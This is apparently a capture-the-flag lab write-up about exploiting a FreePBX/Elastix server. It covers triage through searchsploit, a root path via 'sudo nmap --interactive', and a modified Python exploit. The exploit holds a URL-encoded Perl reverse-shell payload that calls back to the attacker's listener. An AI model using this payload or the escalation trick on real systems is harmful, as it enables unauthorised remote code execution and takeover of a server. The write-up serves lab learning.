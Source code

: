 ```
FreePBX 2.10.0 / Elastix 2.2.0 - Remote Code Execution                       | exploits/php/webapps/18650.py
----------------------------------------------------------------------------- ----------------------------------------
Shellcodes: No Result
Papers: No Result
```
 
Exploit 18650 stands out because it has potential for remote code execution and is in python a preferred language for me.
 
Time to move to analysis
 
## Triage
 
I review the exploit with:
 
``` bash
searchsploit -x
```
 
It even has a potential path to root via nmap interactive mode:
 
```
# sudo nmap --interactive
```
 
Because nmap does some funky stuff with UNIX Sockets it needs elevated privs to talk to the kernel to make custom packets. Interactive mode is just that, it lets the user run commands interactively as nmap, which acts as root by default here. This feature while powerful also was responsible for big security gaps. It has since been removed.
 
Ok but what do we need to do to test the exploit will work?
 
First point of call is to check the url https://10.10.10.7/recordings/misc/callme_page.php is available, I quickly do a `curl` to get a 200 response and see the headers below:
 
```
Host: 10.10.10.7
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Cookie: testing=1; elastixSession=47rgv72o68dlq6mbvi4jd0arn1; ARI=l6g1hmijklp54e6g1988ff90m6
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
```
 
Excellent the url is accessible, next I look at the exploit holistically and make the inline changes:
 
``` python
import urllib
import ssl # Added this as we are connecting over https
rhost="10.10.10.7" # Changed this
lhost="10.10.14.37" # Changed this
lport=443
extension="1000"
context = ssl._create_unverified_context() #certificate is untrusted, this allows it
 
# Reverse shell payload
 
url = 'https://'+str(rhost)+'/recordings/misc/callme_page.php?action=c&callmenum='+str(extension)+'@from-internal/n%0D%0AApplication:%20system%0D%0AData:%20perl%20-MIO%20-e%20%27%24p%3dfork%3bexit%2cif%28%24p%29%3b%24c%3dnew%20IO%3a%3aSocket%3a%3aINET%28PeerAddr%2c%22'+str(lhost)+'%3a'+str(lport)+'%22%29%3bSTDIN-%3efdopen%28%24c%2cr%29%3b%24%7e-%3efdopen%28%24c%2cw%29%3bsystem%24%5f%20while%3c%3e%3b%27%0D%0A%0D%0A'
 
```